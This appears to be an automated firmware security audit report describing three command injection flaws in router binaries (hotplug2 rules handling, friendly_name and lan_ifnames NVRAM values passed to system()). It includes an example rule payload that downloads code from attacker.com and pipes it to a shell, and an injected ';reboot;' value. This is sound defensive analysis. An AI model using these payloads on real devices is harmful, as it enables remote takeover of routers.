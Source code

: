 - **File/Directory Path:** `sbin/hotplug2`
- **Location:** `sbin/hotplug2:0xa8d0 fcn.0000a8d0`
- **Risk Score:** 9.0
- **Confidence:** 8.75
- **Description:** Command injection vulnerability in hotplug2 rules file driver. Trigger conditions: 1) Attacker modifies contents of /etc/hotplug2.rules file 2) Rule contains SYSTEM_ACTION with command containing environment variable placeholders (e.g., $VAR). Vulnerability principle: a) Function fcn.0000a73c performs environment variable substitution without content filtering b) Substitution result is directly passed to system() for execution. Attackers can craft malicious rules (e.g., PATH=/tmp;curl${IFS}attacker.com | sh), achieving RCE when hotplug events trigger the rules. Attack surface: Network interface (if www user has write access to rules file) or physical interface (USB hotplug).
- **Code Snippet:**
  ```
  uVar9 = fcn.0000a73c(uVar5,param_1);
  iVar11 = sym.imp.system();
  ```
- **Keywords:** fcn.0000a73c, system, SYSTEM_ACTION, /etc/hotplug2.rules
- **Notes:** Verify rule file permissions: If the www user has write access to /etc/hotplug2.rules, it forms a complete WEB→configuration tampering→RCE chain. Related knowledge base note: 'Verify whether the configuration file contains user-controllable parameters.'

---
### cmd_injection-frendly_name-system

- **File/Directory Path:** `sbin/system`
- **Location:** `sbin/system:0 (main) 0xcd24`
- **Risk Score:** 9.0
- **Confidence:** 8.75
- **Description:** High-risk command injection vulnerability: The program uses 'sprintf(buffer, "%s %s", "mkdir -p", nvram_get("friendly_name"))' to construct commands, where the 'friendly_name' value is directly concatenated without any filtering. Trigger condition: An attacker sets malicious NVRAM values (e.g., ';reboot;') through other interfaces (such as Web API), which are triggered when the system executes initialization processes. Security impact: Arbitrary commands can be executed with REDACTED_PASSWORD_PLACEHOLDER privileges, with a high probability of successful exploitation.
- **Code Snippet:**
  ```
  uVar11 = sym.imp.acosNvramConfig_get(*0xcd64);
  sym.imp.sprintf(iVar24 + -0x1e8, *0xccfc, *0xccf8, uVar11);
  sym.imp.system(iVar24 + -0x1e8);
  ```
- **Keywords:** friendly_name, acosNvramConfig_get, sprintf, system, mkdir -p
- **Notes:** Associated attack path: Web interface setting friendly_name → NVRAM storage → system() execution

---
### command_injection-rc-lan_ifnames_eval

- **File/Directory Path:** `sbin/rc`
- **Location:** `sbin/rc:0x10c98 (network_init)`
- **Risk Score:** 9.0
- **Confidence:** 8.5
- **Description:** Command injection vulnerability in lan_ifnames: At address 0x10c98, the return value of nvram_get("lan_ifnames") is split and used to construct _eval command arguments. Although strspn/strcspn are used for splitting, REDACTED_PASSWORD_PLACEHOLDER contents are not filtered. Attackers can inject malicious commands by contaminating lan_ifnames. Trigger condition: Executed during system network configuration initialization.
- **Keywords:** lan_ifnames, nvram_get, _eval, strspn, strcspn

---